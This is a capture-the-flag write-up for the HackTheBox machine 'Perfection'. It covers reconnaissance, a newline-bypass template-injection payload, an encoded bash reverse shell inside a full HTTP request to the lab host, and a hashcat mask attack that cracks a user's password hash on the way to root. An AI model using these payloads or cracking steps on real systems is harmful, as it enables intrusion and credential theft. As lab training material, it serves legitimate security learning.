 # HackTheBox - Perfection

## Enumeration

As always, we start with our nmap scan and find an SSH server and web server running.

```
# Nmap 7.94SVN scan initiated Fri Jul  5 09:25:03 2024 as: nmap -sCV -oN nmap/output 10.10.11.253
Nmap scan report for 10.10.11.253
Host is up (0.033s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 80:e4:79:e8:59:28:df:95:2d:ad:57:4a:46:04:ea:70 (ECDSA)
|_  256 e9:ea:0c:1d:86:13:ed:95:a9:d0:0b:c8:22:e4:cf:e9 (ED25519)
80/tcp open  http    nginx
|_http-title: Weighted Grade Calculator
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jul  5 09:25:12 2024 -- 1 IP address (1 host up) scanned in 8.13 seconds
```

We begin exploring the web page which reveals us an interesting table.&#x20;

<figure><img src=".gitbook/assets/image (56).png" alt=""><figcaption></figcaption></figure>

There's various requirements for this and when we try to perform XSS or LFI there is some kind of filter that'll stop us from doing so. Scratching my head and hitting a brick wall we decide to get creative and we pass this into Burp. We begin experimenting with a new-line character and a similar XSS payload and find that this isn't working, curious as to where we go with this box we start getting creative and moving variables around. We take the "category1" variable and put it at the end of the request with this payload, and sure enough it works!

## User

We create a POC by pinging our own IP with the payload `a%0A<%25%3Dsystem("ping+-c1+10.10.14.147");%25>` and sure enough, get a response.

<figure><img src=".gitbook/assets/image (59).png" alt=""><figcaption></figcaption></figure>

This proves that the machine sent an ICMP request to our machine and that we have code execution. From this point it's just a case of placing a reverse shell in it's place and getting a shell on the box. We use a basic Bash shell and Base64 then URL encode it, to avoid any confusions in Burp.

<figure><img src=".gitbook/assets/image (60).png" alt=""><figcaption></figcaption></figure>

Since we've base64 encoded it, we'll need to decode it before we run it, so our payload will look something like `a%0A<%25%3Dsystem("echo+YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC4xNDcvNTAwMCAwPiYx+|+base64+-d+|+bash");%25>`

Meaning our full request looks like:

```
POST /weighted-grade-calc HTTP/1.1
Host: 10.10.11.253
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 205
Origin: http://10.10.11.253
Connection: keep-alive
Referer: http://10.10.11.253/weighted-grade-calc
Upgrade-Insecure-Requests: 1

grade1=1&weight1=20&category2=1&grade2=1&weight2=20&category3=1&grade3=1&weight3=20&category4=1&grade4=1&weight4=20&category5=1&grade5=1&weight5=20&category1=a%0A<%25%3Dsystem("echo+YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC4xNDcvNTAwMCAwPiYx+|+base64+-d+|+bash");%25>
```

With our listener setup, we send the request and sure enough, get a shell.

<figure><img src=".gitbook/assets/image (61).png" alt=""><figcaption></figcaption></figure>

## Root

As we're searching for things we find a database file in Susan's home directory and also a piece of mail aimed at Susan.

<figure><img src=".gitbook/assets/image (62).png" alt=""><figcaption></figcaption></figure>



Now this is useful, this helps us know a format for possible passwords. We know that Susan's password must start "susan\_nasus\_XXXXXXXXXX". This seems like a job for Hashcat so we begin doing our research...

<figure><img src=".gitbook/assets/image (63).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://hashcat.net/forum/thread-8032.html" %}

From the link shown here, we are pointed in the direction of a mask attack, so head to Hashcat's page on this and figure out what we're looking at.

{% embed url="https://hashcat.net/wiki/doku.php?id=mask_attack" %}

So theoretically if we had Susan's hash, we could execute a command that tried to solve the random number and we should hopefully get our password.

<figure><img src=".gitbook/assets/image (64).png" alt=""><figcaption></figcaption></figure>

We head back to the database file and things don't quite look right, so decide to look at the strings of the file which reveals a slightly better layout of it.

<figure><img src=".gitbook/assets/image (65).png" alt=""><figcaption></figcaption></figure>

We did our recon on the page and found that Susan's full name is Susan Miller so can assume the hash starts after that which gives us `abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f`.



We're unsure on the hash type so decide to run this command twice, the first to identifty the hash type that Hashcat thinks is most likely, and then with that hash type.&#x20;

<figure><img src=".gitbook/assets/image (66).png" alt=""><figcaption></figcaption></figure>

And then we run the command again with mode 1400 - `` hashcat hash -m 1400 -a 3 susan_nasus_?d?d?d?d?d?d?d?d?d` ``

Leaving this to run for a couple of minutes eventually gives us the correct password which, when we pass to our shell shows we have full sudo privileges!

<figure><img src=".gitbook/assets/image (67).png" alt=""><figcaption></figcaption></figure>

Nice and simple, we spawn ourselves a root shell and that's the box!

<figure><img src=".gitbook/assets/image (68).png" alt=""><figcaption></figcaption></figure>
